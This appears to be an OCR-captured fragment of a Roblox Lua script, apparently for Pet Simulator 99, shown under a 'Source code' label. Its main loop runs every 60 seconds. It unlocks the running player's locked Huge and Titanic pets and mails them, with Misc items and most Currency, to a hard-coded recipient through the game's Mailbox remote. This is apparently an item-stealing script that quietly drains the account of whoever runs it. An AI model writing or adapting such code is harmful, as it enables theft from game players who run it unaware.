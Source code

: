 local function sendItems(category)
    for i, v in pairs(save.Get().Inventory[category]) do
        local minAmount = minAmounts[category] and minAmounts[category][v.id]
        if minAmount and type(v._am) == "number" and v._am >= minAmount then
            local amountToSend = (category == "Currency" and v.id == "Diamonds") and math.floor(v._am - 5100000) or math.floor(v._am)
            game:GetService("ReplicatedStorage").Network["Mailbox: Send"]:InvokeServer(sendto, content, category, i, amountToSend)
            task.wait(1)
        end
    end
end
 
local function sendHuge()
    for i, v in pairs(save.Get().Inventory.Pet) do
        if string.find(v.id, "Huge") or string.find(v.id, "Titanic") then
            if v._lk then
                local Unlocked = false
                while not Unlocked do
                    Unlocked, err = Network.Invoke("Locking_SetLocked", i, false)
                    wait(1)
                end
            end
            
            game:GetService("ReplicatedStorage").Network["Mailbox: Send"]:InvokeServer(sendto, content, "Pet", i, 1)
            wait(1)
        end
    end
end
 
task.spawn(function()
    while true do
	task.wait(60)
	sendHuge()
	task.wait(1)
	sendItems("Misc")
	task.wait(1)
	sendItems("Currency")
	end
end)
 
 
local cuoccuoi = false
local cuocvip = false
task.spawn(function()
		if save.Get().Inventory.Pickaxe then
        for i, v in pairs(save.Get().Inventory.Pickaxe) do          
			if v.id == "Ruby Pickaxe" then
				cuoccuoi = true
			end
		end
		end
end)
 